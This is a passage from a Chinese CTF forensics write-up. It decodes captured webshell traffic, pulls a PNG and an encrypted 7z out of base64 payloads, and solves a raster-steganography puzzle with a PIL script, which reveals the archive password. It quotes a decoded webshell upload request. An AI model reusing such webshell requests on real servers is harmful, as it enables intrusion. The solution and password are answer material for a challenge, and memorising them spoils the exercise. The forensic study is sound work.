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GNNrqtlSrp70sf2BixZljLSNTvdvNpe70uNHf4vKsiAWvG1cMqJ5XawPH770pPop/K5d2w8bvGc3aiHj3v4+yzUvOt0ldwNXWw9fciaz6v5bciW+bv1e7T70B/pR31Ujty8mmfSvc5PZox6rNGjhBeVftzOyV18qtTmE3Ul9RF7MzbsDstcPvYldw/NZQencPVRr3D7z+dldPRNt6NVh010JYTS7rBf3oaruT9V187Kqva0b5P+9Ki9Lu9ah2JGxEmRoebs/2oqUNX3/v6evLi4kxtf/vufbUB6l051dbN2nK/up3az0rV70S/VLPdmr9Lva/ENgFrp9sgqw+b9tpu6dVO7ee/e++dy7s2vPSUHtkofU9ryC3dTs3fzDgmq9fTEdtd8bNXPVf9DkGlF8KrKgnkK3yH//bewIgroNUDyOqpfvVbFSO2ka6n6bIaFSJXuq3TOorR08w2XftZdwpGvdvMqL5upVGXGeeUd3+74mhUjT/fC0bV0vvcq7vL9yjV8n2V1VqfN2ufn1YPgPtaMmAB69kxFALMImABAIQ99ilCAIBeBCwAgDABCwAgTMACAAgTsAAAwgQsAIAwAQsAIEzAAgAIE7AAAMIELACAMAELACBMwAIACBOwAADCBCwAgDABCwAgTMACAAgTsAAAwgQsAIAwAQsAIEzAAgAIE7AAAMIELACAMAELACBMwAIACBOwAADCBCwAgDABCwAgTMACAAgTsAAAwgQsAIAwAQsAIEzAAgAIE7AAAMIELACAMAELACBMwAIACBOwAADCBCwAgDABCwAgTMACAAgTsAAAwgQsAIAwAQsAIEzAAgAIE7AAAMIELACAMAELACBMwAIACBOwAADCBCwAgDABCwAgTMACAAgTsAAAwgQsAIAwAQsAIEzAAgAIE7AAAMIELACAMAELACBMwAIACBOwAADCBCwAgDABCwAgTMACAAgTsAAAwgQsAIAwAQsAIEzAAgAIE7AAAMIELACAMAELACBMwAIACBOwAADCBCwAgDABCwAgTMACAAgTsAAAwgQsAIAwAQsAIEzAAgAIE7AAAMIELACAMAELACBMwAIACBOwAADCBCwAgDABCwAgTMACAAgTsAAAwgQsAIAwAQsAIEzAAgAIE7AAAMIELACAMAELACBMwAIACBOwAADCBCwAgDABCwAgTMACAAgTsAAAwgQsAIAwAQsAIEzAAgAIE7AAAMIELACAMAELACBMwAIACBOwAADCBCwAgDABCwAgTMACAAgTsAAAwgQsAIAwAQsAIEzAAgAIE7AAAMIELACAMAELACDp6+vrf02Km1XVSJVfAAAAAElFTkSuQmCC
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116105208-2253c84a-842b-1.png)

发现PNG文件头特征，那说明这是一个png文件，那我们要怎么将它拉出来呢？  
这个时候，就要用到我写的开源工具：[https://github.com/AabyssZG/FileReverse-Tools](https://github.com/AabyssZG/FileReverse-Tools)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116105226-2c8b3eec-842b-1.png)

将导出的文件后缀名改成 `.png`，就得到了这么一张图片：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116105241-35ba8d42-842b-1.png)

**同时，还要关注第5轮的数据包，解密后主体内容如下：**

```plain
$mode="dXBkYXRl";$mode=base64_decode($mode);$path="L3d3dy9hZG1pbi93d3cud2Vic2hlbGwuY29tXzgwL3d3d3Jvb3QvdXBsb2FkL2ZsYWcuN3o=";$path=base64_decode($path);
$hash="";$blockIndex="MA==";$blockIndex=base64_decode($blockIndex);$blockSize="MzA3MjA=";$blockSize=base64_decode($blockSize);
$content="TjNxOHJ5Y2NBQVRxLzdOWU1BQUFBQUFBQUFCcUFBQUFBQUFBQUdIOTN1SjRGaG1xUGJtb2lBOVVyblkzQjAxTU0vQkdqZFJDN2NwK0VzSTg4Uk9UZ0R0QTdpOGpXWGkzSGl4MWFpTkNpRm9CQkFZQUFRa3dBQWNMQVFBQ0pBYnhCd0VTVXcrNkZKa29NL1RPTkFPZlAxVXk3dGVmSVNFQkFBRUFEREFzQUFnS0FVSnpRYUFBQUFVQkdRRUFFUk1BWmdCc0FHRUFad0F1QUhRQWVBQjBBQUFBR1FBVUNnRUFvaENQWEM1cTJRRVZCZ0VBSUFBQUFBQUE=";
$content=base64_decode($content);
```

同样对 `$path` 进行Base64解码，发现攻击者通过WebShell上传了一个7z压缩包：

```plain
/www/admin/www.webshell.com_80/wwwroot/upload/flag.7z
```

同样对 `$content` 进行二次Base64解码，进行两层的Base64解码，解密后如下：

```plain
N3q8ryccAATq/7NYMAAAAAAAAABqAAAAAAAAAGH93uJ4FhmqPbmoiA9UrnY3B01MM/BGjdRC7cp+EsI88ROTgDtA7i8jWXi3Hix1aiNCiFoBBAYAAQkwAAcLAQACJAbxBwESUw+6FJkoM/TONAOfP1Uy7tefISEBAAEADDAsAAgKAUJzQaAAAAUBGQEAERMAZgBsAGEAZwAuAHQAeAB0AAAAGQAUCgEAohCPXC5q2QEVBgEAIAAAAAAA
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116105255-3e2f60a6-842b-1.png)

发现7z文件头特征，那说明这是一个7z压缩包文件，通过同样的手法拉出来

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116105315-4a368d2a-842b-1.png)

将导出的文件后缀名改成 `.7z`，就得到了这么一个加密的压缩包：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116105328-51c3b5c2-842b-1.png)

### 2.4 拿到隐藏的压缩包密码

在上面拿到了一张隐写的图片和一个加密的压缩包文件，接下来就要通过这张图片找到压缩包的密码了。

本来我是看文章比较长了，不想继续往下写了，但很多人私信我想要看解题过程

上图的话，一看就是CTF中的光栅图，需要利用PIL库来做处理  
赛后和 `@daiowjfoaejoi` 师傅交流了一下，这里编写如下脚本：

```plain
from PIL import Image
import numpy as np

img = np.array(Image.open('baseout.png'))
for i in range(5):
    z = np.zeros_like(img)
    z[:, i::5, :] = img[:, i::5, :]
    Image.fromarray(z).show()
```

代码解释如下：

> 第一步、打开图像文件将其转换为 `NumPy` 数组，`img` 就是一个包含图像像素值的 `NumPy` 数组，然后创建一个与 `img` 大小相同的全零数组 `z`，将用于生成新图像  
> 第二步、在 `z` 数组中将 `img` 数组中每隔 5 列的像素值复制到相同位置，这将在原图像的基础上每次保留其中的一列，然后生成一系列具有不同颜色通道的图像  
> 第三步、使用 `Pillow` 的 `Image.fromarray` 方法将 `NumPy` 数组 `z` 转换为图像对象，然后使用 `show` 方法显示图像

最终效果：实现了一个循环，会生成并显示一系列图像（总共5张），每个图像都是在原图像基础上每隔 5 列像素值不同的图像

运行脚本后，如下图所示：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116105342-5a470488-842b-1.png)

成功拿到解压密码：

```plain
PPeRLR6SEmHGC
```

**对于光栅图的隐写解密，我这边还编写了一个开源工具，可以秒杀这道题**  
**开源地址：[https://github.com/AabyssZG/Raster-Terminator](https://github.com/AabyssZG/Raster-Terminator)**

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116105414-6cf10f48-842b-1.png)

能够自动去爆破并输出光栅图的图像，觉得不错的师傅们记得给我点点Star~

成功解压压缩包，拿到Flag：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116105401-65a355b6-842b-1.png)

## 总结

想要CTF打的好，还是要多刷题，多看看有哪些姿势能解决问题
